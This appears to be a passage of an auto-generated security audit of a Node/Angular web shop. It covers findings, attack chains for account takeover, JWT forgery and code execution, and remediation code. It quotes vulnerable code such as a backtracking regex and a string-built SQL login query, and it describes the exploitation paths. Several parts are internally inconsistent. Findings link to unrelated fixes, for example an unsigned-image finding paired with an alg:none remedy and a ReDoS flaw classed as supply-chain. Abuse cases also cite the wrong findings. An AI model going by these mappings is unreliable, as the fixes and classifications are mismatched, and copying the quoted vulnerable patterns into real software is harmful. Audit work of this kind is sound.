**Evidence:** ✓ verified - `routes/b2bOrder.ts` line 32 calls `next(err)` with the raw caught error from `vm.runInContext`, with no sanitization before forwarding to Express error middleware.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-063](#m-063) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml`

**Issue:** The release pipeline pushes multi-platform Docker images to DockerHub for every tagged release but includes no cosign signing step and no SLSA provenance attestation. Downstream users cannot verify the published image originated from this repository's CI pipeline rather than a compromised registry intermediary.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-007](#m-007) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Instances (2):** `Dockerfile:5`, `package.json:88`

**Issue:** The production npm install in the Dockerfile does not use --ignore-scripts. Any compromised transitive dependency can execute arbitrary postinstall code during the Docker build phase, injecting backdoors or exfiltrating build secrets.

**Evidence:** ✓ verified

**Fix:** ❸ [M-008](#m-008) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/dependabot.yml`

**Instances (1):** `.github/dependabot.yml`

**Issue:** No Dependabot configuration file exists. The npm dependency graph (450+ packages) receives no automated security update alerts. Known-vulnerable packages persist indefinitely until manually identified and updated.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-009](#m-009) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · ReDoS

**Severity:** 🟡 Medium  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:47`

**Issue:** The `verifySvgInjectionChallenge` handler at line 46-47 calls `data?.match(/.*\.\.\/\.\.\/\.\.[\ w/-]*?\/redirect\?to=https?:\/\/placecats\.com\/(g\/)?[\d]+\/[\d]+.*/)` where `data` is fully attacker-controlled. The regex has unanchored `.*` at both ends and a lazy `[\ w/-]*?` in the middle.

A single crafted WebSocket message can block the `Node.js` event loop for seconds to minutes, causing a denial of service for all active connections.

**Evidence:** ✓ verified - `data?.match(/.*\.\.\/\.\.\/\.\.[\ w/-]*?\/redirect\?to=.../)`  at line 47 applies an unanchored backtracking regex to an attacker-supplied string with no length or content pre-check.

**Fix:** ❸ [M-064](#m-064) — Pre-validate and length-cap data before regex match

**Classification:** Supply-Chain Integrity · [CWE-1333](https://cwe.mitre.org/data/definitions/1333.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** `last-login-ip.component.ts:39` executes `this.sanitizer.bypassSecurityTrustHtml('<small>${payload.data.lastLoginIp}</small>')` where `payload.data.lastLoginIp` is taken directly from the decoded JWT. If the server stores an attacker-controlled value as the `lastLoginIp` claim (e.g., by routing a login request through an HTTP client with a crafted `X-Forwarded-For: ` header), the payload executes as HTML in the Last Login IP display page.

Attacker-controlled data in the `lastLoginIp` JWT field executes as script in the authenticated user's browser context, enabling session takeover or credential theft.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `bypassSecurityTrustHtml` wraps a JWT claim interpolated directly into an HTML string, creating an XSS sink for any attacker-controlled data stored server-side in the JWT.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟢 Low (2)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Use of Unmaintained Third-Party Components

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:66`

**Issue:** `release.yml:66` uses `dawidd6/action-get-tag@727a6f0a561be04e09013531e73a3983a65e3479`, whose inline comment notes the action is archived and should be replaced eventually. Vulnerabilities in the unmaintained `dawidd6/action-get-tag` action in the release pipeline can corrupt artifact naming or inject values into `GITHUB_ENV` used by subsequent Docker push steps.

**Evidence:** ✓ verified - `release.yml:66` declares a known-archived action with a `TODO` comment acknowledging it needs replacement, used in the highest-privilege release pipeline job.

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-065](#m-065) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile`

**Issue:** The Dockerfile has no HEALTHCHECK directive. Container orchestrators (Docker Compose, Kubernetes) cannot distinguish a hung or poisoned container from a healthy one, delaying incident detection and automated remediation.

**Evidence:** ✓ verified

**Fix:** ❹ [M-010](#m-010) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

---

_**Severity annotation:** rows tagged `*(raw Critical)*` had a Critical-class impact that was capped to a lower effective severity by the triage stage (likelihood downgrade or `data/severity-caps.yaml` rule). The rendered severity is the **effective** severity used for ranking and prioritisation; the raw severity is preserved here so reviewers can re-evaluate the cap decision._

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ? Inconclusive |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-020](#f-020) — Stored XSS in Product Descriptions — `search-result.component.ts:132` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟠 [F-001](#f-001) — JWT Bearer Token Stored in localStorage — `login.component.ts:101` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-015](#f-015) — OAuth Implicit Flow Without State or PKCE — `login.component.ts:134`<br/>`lib/insecurity.ts:188` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-030](#m-030) — Encode output instead of bypassing the framework sanitizer (**P2**): remediating 🟠 [F-020](#f-020) — Stored XSS in Product Descriptions — `search-result.component.ts:132` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-011](#m-011) — Store session tokens in HttpOnly, Secure cookies (**P3**): remediating 🟠 [F-001](#f-001) — JWT Bearer Token Stored in localStorage — `login.component.ts:101` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❷ [M-025](#m-025) — Replace OAuth Implicit Flow with Authorization Code Flow with PKCE and state validation (**P2**): remediating 🟠 [F-015](#f-015) — OAuth Implicit Flow Without State or PKCE — `login.component.ts:134` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`routes/basket.ts:19` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-013](#m-013) — Move secrets to a managed secret store (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-015](#m-015) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-013](#m-013) — Move secrets to a managed secret store (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-013](#m-013) — Move secrets to a managed secret store (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30`<br/>`lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-013](#m-013) — Move secrets to a managed secret store (**P2**): remediating 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-015](#m-015) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-011](#f-011) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input (**P1**): remediating 🔴 [F-011](#f-011) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-014](#m-014) — Use parameterized database queries<br/>❶ [M-015](#m-015) — Move cryptographic keys to a managed secret store<br/>❶ [M-016](#m-016) — Enforce JWT signature and algorithm verification<br/>❶ [M-017](#m-017) — Enforce object-level (ownership) authorization<br/>❶ [M-018](#m-018) — Use parameterized database queries<br/>❶ [M-019](#m-019) — Add 'role' to excludeAttributes in the finale User resource, and force…<br/>❶ [M-020](#m-020) — Disable XML external entity (XXE) resolution<br/>❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input<br/>❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input<br/>❶ [M-023](#m-023) — Restrict writable attributes on POST `/api/Users` to exclude the role…<br/>❶ [M-024](#m-024) — Constrain file paths to a safe base directory<br/>❷ [M-001](#m-001) — Architecture review: validate Data disclosure through cleartext…<br/>❷ [M-002](#m-002) — Drop unnecessary privileges in build and runtime<br/>❷ [M-003](#m-003) — Apply least-privilege permissions<br/>❷ [M-004](#m-004) — Pin third-party dependencies to immutable versions<br/>❷ [M-005](#m-005) — Pin the container base image to an immutable digest<br/>❷ [M-006](#m-006) — Pin the container base image to an immutable digest<br/>❷ [M-013](#m-013) — Move secrets to a managed secret store<br/>❷ [M-025](#m-025) — Replace OAuth Implicit Flow with Authorization Code Flow with PKCE and…<br/>❷ [M-026](#m-026) — Key rate limiting on the server-validated remote IP, not client…<br/>❷ [M-027](#m-027) — Pin third-party dependencies to immutable versions<br/>❷ [M-028](#m-028) — Enforce JWT authentication middleware on POST `/file-upload` before all…<br/>❷ [M-029](#m-029) — Add authentication middleware to Socket\.IO connection handler<br/>❷ [M-030](#m-030) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-031](#m-031) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-032](#m-032) — Hash passwords with a strong, salted algorithm<br/>❷ [M-033](#m-033) — Pin third-party dependencies to immutable versions<br/>❷ [M-034](#m-034) — Pin third-party dependencies to immutable versions<br/>❷ [M-035](#m-035) — Use parameterized database queries<br/>❷ [M-036](#m-036) — Add security audit logging<br/>❷ [M-037](#m-037) — Eliminate token-in-fragment by migrating to Authorization Code Flow…<br/>❷ [M-038](#m-038) — Move cryptographic keys to a managed secret store<br/>❷ [M-039](#m-039) — Stop storing sensitive data in cleartext<br/>❷ [M-040](#m-040) — Stop exposing internal information to clients<br/>❷ [M-041](#m-041) — Replace MD5 password hashing with bcrypt or Argon2<br/>❷ [M-042](#m-042) — Return generic error messages to clients<br/>❷ [M-043](#m-043) — Gate /encryptionkeys/ and /ftp/ routes behind admin-only isAuthorized…<br/>❷ [M-044](#m-044) — Validate and allowlist outbound request targets<br/>❷ [M-045](#m-045) — Stop exposing internal information to clients<br/>❷ [M-046](#m-046) — Require admin-role JWT authentication on GET `/support/logs` and GET…<br/>❷ [M-047](#m-047) — Scope challenge-solved notification broadcasts to the owning user's…<br/>❷ [M-048](#m-048) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-049](#m-049) — Add express-rate-limit middleware to POST `/b2b/v2/orders`<br/>❷ [M-050](#m-050) — Add rate limiting to `/rest/user/login` with IP-only key and account…<br/>❷ [M-051](#m-051) — Bound parser and decompression resource limits<br/>❷ [M-052](#m-052) — Enforce connection rate limits and maximum concurrent WebSocket…<br/>❷ [M-053](#m-053) — Add server-side session validation endpoint called by guards before…<br/>❷ [M-054](#m-054) — Apply least-privilege permissions<br/>❷ [M-055](#m-055) — Migrate 2FA password confirmation to use bcrypt comparison consistent…<br/>❷ [M-056](#m-056) — Enforce server-side authorization on every endpoint<br/>❷ [M-057](#m-057) — Enforce server-side authorization on every endpoint<br/>❸ [M-007](#m-007) — Sign and verify release artifacts<br/>❸ [M-008](#m-008) — Disable untrusted package install scripts<br/>❸ [M-009](#m-009) — Pin the container base image to an immutable digest<br/>❸ [M-011](#m-011) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-012](#m-012) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-059](#m-059) — Add security audit logging<br/>❸ [M-060](#m-060) — Add security audit logging<br/>❸ [M-061](#m-061) — Add security audit logging<br/>❸ [M-062](#m-062) — Add security audit logging<br/>❸ [M-063](#m-063) — Return generic error messages to clients<br/>❸ [M-064](#m-064) — Pre-validate and length-cap data before regex match<br/>❹ [M-010](#m-010) — Add a container healthcheck<br/>❹ [M-065](#m-065) — Pin the container base image to an immutable digest

### P1 — Immediate

<a id="m-014"></a>
#### M-014 — Use parameterized database queries

**Addresses:**

- 🔴 [F-004](#f-004) — SQL Injection Authentication Bypass (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace `models.sequelize.query(\`SELECT * FROM Users WHERE email = '\${`req.body.email`}'...\`)` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })` using Sequelize ORM methods. Validate and sanitize `req.body.email` with a strict email schema (e.g., `zod` - `z.string().email()`) before it reaches any query. Add a per-IP rate limit to `POST /rest/user/login` (e.g., `express-rate-limit` at 10 attempts per 15 minutes) using a trusted server-side IP, not X-Forwarded-For.

1. Replace `models.sequelize.query(\`SELECT * FROM Users WHERE email = '\${`req.body.email`}'...\`)` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })` using Sequelize ORM methods.
2. Validate and sanitize `req.body.email` with a strict email schema (e.g., `zod` - `z.string().email()`) before it reaches any query.
3. Add a per-IP rate limit to `POST /rest/user/login` (e.g., `express-rate-limit` at 10 attempts per 15 minutes) using a trusted server-side IP, not X-Forwarded-For.

```javascript
// Safe replacement using Sequelize ORM
const user = await UserModel.findOne({
  where: {
    email: req.body.email,
    password: security.hash(req.body.password),
    deletedAt: null
  }
})
```

**Reference:** CWE-89

---

<a id="m-015"></a>
#### M-015 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Generate a new 2048-bit RSA key pair: `openssl genrsa -out jwt.pem 2048 && openssl rsa -in jwt.pem -pubout -out jwt.pub`. Store the private key in an environment variable (`JWT_PRIVATE_KEY`) or a secrets manager (e.g., AWS Secrets Manager, HashiCorp Vault). Load it at startup: `const privateKey = process.env.JWT_PRIVATE_KEY ?? fs.readFileSync('encryptionkeys/jwt.pem', 'utf8')`. Rotate the key immediately - all existing JWTs signed with the old key must be invalidated (clear `authenticatedUsers.tokenMap`). Add `encryptionkeys/` to `.gitignore` to prevent future commits of key material.

1. Generate a new 2048-bit RSA key pair: `openssl genrsa -out jwt.pem 2048 && openssl rsa -in jwt.pem -pubout -out jwt.pub`.
2. Store the private key in an environment variable (`JWT_PRIVATE_KEY`) or a secrets manager (e.g., AWS Secrets Manager, HashiCorp Vault). Load it at startup: `const privateKey = process.env.JWT_PRIVATE_KEY ?? fs.readFileSync('encryptionkeys/jwt.pem', 'utf8')`.
3. Rotate the key immediately - all existing JWTs signed with the old key must be invalidated (clear `authenticatedUsers.tokenMap`).
4. Add `encryptionkeys/` to `.gitignore` to prevent future commits of key material.

```typescript
// Load the RSA private key from an environment variable / KMS — never
// the source tree. Rotate the prior key and revoke outstanding tokens.
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not set')
const token = jwt.sign(claims, privateKey, { algorithm: 'RS256' })
```

**Verification:** `git grep -- 'BEGIN RSA PRIVATE KEY'` returns no matches in the working tree.

**Reference:** CWE-321

---

<a id="m-016"></a>
#### M-016 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-006](#f-006) — Insecure JWT Verification (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:54`

**How:** Upgrade `express-jwt` to >= 8.4.1 and `jsonwebtoken` to >= 9.0.2: `npm install express-jwt@latest jsonwebtoken@latest`. Pin the expected algorithm explicitly: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects tokens with any other algorithm including `none`. Audit all `jwt.verify()` and `jws.verify()` call sites to ensure `algorithms` is always specified.

1. Upgrade `express-jwt` to >= 8.4.1 and `jsonwebtoken` to >= 9.0.2: `npm install express-jwt@latest jsonwebtoken@latest`.
2. Pin the expected algorithm explicitly: `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` - this rejects tokens with any other algorithm including `none`.
3. Audit all `jwt.verify()` and `jws.verify()` call sites to ensure `algorithms` is always specified.

```javascript
// Safe configuration — pins algorithm, rejects alg:none
export const isAuthorized = () =>
  expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-017"></a>
#### M-017 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-018"></a>
#### M-018 — Use parameterized database queries

**Addresses:**

- 🔴 [F-008](#f-008) — UNION SQL Injection (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Replace the raw `sequelize.query()` call in `routes/search.ts:23` with `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: `%\${criteria}%` } }, { description: { [Op.like]: `%\${criteria}%` } }], deletedAt: null }, order: [['name', 'ASC']] })` using Sequelize's `Op.like` which generates parameterized LIKE clauses. Import Op from sequelize: `import { Op } from 'sequelize'`. Add test coverage verifying that UNION-based payloads return empty results instead of data.

1. Replace the raw `sequelize.query()` call in `routes/search.ts:23` with `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: `%\${criteria}%` } }, { description: { [Op.like]: `%\${criteria}%` } }], deletedAt: null }, order: [['name', 'ASC']] })` using Sequelize's `Op.like` which generates parameterized LIKE clauses.
2. Import Op from sequelize: `import { Op } from 'sequelize'`.
3. Add test coverage verifying that UNION-based payloads return empty results instead of data.

```javascript
// routes/search.ts — replacement for line 23
import { Op } from 'sequelize'
const products = await ProductModel.findAll({
  where: {
    [Op.and]: [
      { deletedAt: null },
      { [Op.or]: [
        { name: { [Op.like]: `%${criteria}%` } },
        { description: { [Op.like]: `%${criteria}%` } }
      ]}
    ]
  },
  order: [['name', 'ASC']]
})
```

**Reference:** CWE-89

---

<a id="m-019"></a>
#### M-019 — Add 'role' to excludeAttributes in the finale User resource, and force server-side default

**Addresses:**

- 🔴 [F-009](#f-009) — Mass Assignment: role Field Writable (`server.ts:483`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:483`

